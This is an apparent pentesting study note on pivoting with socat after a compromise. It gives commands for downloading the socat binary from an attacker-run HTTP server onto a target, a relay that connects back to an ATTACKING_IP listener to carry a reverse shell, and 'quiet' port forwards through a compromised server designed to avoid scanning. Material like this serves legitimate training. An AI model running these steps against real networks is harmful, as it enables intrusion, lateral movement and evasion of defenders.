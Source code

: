 https://github.com/andrew-d/static-binaries/tree/master/binaries

https://github.com/3ndG4me/socat/releases

On Kali (inside the directory containing your Socat binary):

```bash - kali
sudo python3 -m http.server 80
```

Then, on the target:  
```bash - kali
curl $KALI/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME
```
OR
```command prompt - target
certutil -urlcache -split -f http://192.168.111.133/socatx64.exe
```


standard netcat listener on our attacking box 

![[rlwrap]]

Next, on the compromised server, use the following command to start the relay:  

```bash - target
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
```

_**Note:** the order of the two addresses matters here. Make sure to open the listening port first,_ then _connect back to the attacking machine._

From here we can then create a reverse shell to the newly opened port 8000 on the compromised server. This is demonstrated in the following screenshot, using netcat on the remote server to simulate receiving a reverse shell from the target server:

![[Pasted image 20220116094947.png]]

A brief explanation of the above command:

-   `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
-   `tcp:ATTACKING_IP:443` connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
-   `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.

The relay connects back to a listener started using an alias to a standard netcat listener: `sudo rlwrap -cAr nc -lvnp 443`.


**Port Forwarding -- Easy**

The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server. For example, if the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward:  
```bash - target
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &  
```

This opens up port 33060 on the compromised server and redirects the input from the attacking machine straight to the intended target server, essentially giving us access to the (presumably MySQL Database) running on our target of 172.16.0.10. The `fork` option is used to put every connection into a new process, and the `reuseaddr` option means that the port stays open after a connection is made to it. Combined, they allow us to use the same port forward for more than one connection. Once again we use `&` to background the shell, allowing us to keep using the same terminal session on the compromised server for other things.

We can now connect to port 33060 on the relay (172.16.0.5) and have our connection directly relayed to our intended target of 172.16.0.10:3306.


**Port Forwarding -- Quiet**

The previous technique is quick and easy, but it also opens up a port on the compromised server, which could potentially be spotted by any kind of host or network scanning. Whilst the risk is not _massive_, it pays to know a slightly quieter method of port forwarding with socat. This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

First of all, on our own attacking machine, we issue the following command:  
`socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the `fork` and `reuseaddr` options set, to allow us to create more than one connection using this port forward.

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:  
`./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &  
`

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:  
`./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &  
`

This would create a link between port 8000 on our attacking machine, and port 80 on the intended target (172.16.0.10), meaning that we could go to `localhost:8000` in our attacking machine's web browser to load the webpage served by the target: 172.16.0.10:80!

This is quite a complex scenario to visualise, so let's quickly run through what happens when you try to access the webpage in your browser:

-   The request goes to `127.0.0.1:8000`
-   Due to the socat listener we started on our own machine, anything that goes into port 8000, comes out of port 8001
-   Port 8001 is connected directly to the socat process we ran on the compromised server, meaning that anything coming out of port 8001 gets sent to the compromised server, where it gets relayed to port 80 on the target server.

The process is then reversed when the target sends the response:

-   The response is sent to the socat process on the compromised server. What goes into the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine.
-   Anything that goes into port 8001 on our attacking machine comes out of port 8000 on our attacking machine, which is where the web browser expects to receive its response, thus the page is received and rendered.

We have now achieved the same thing as previously, but without opening any ports on the server!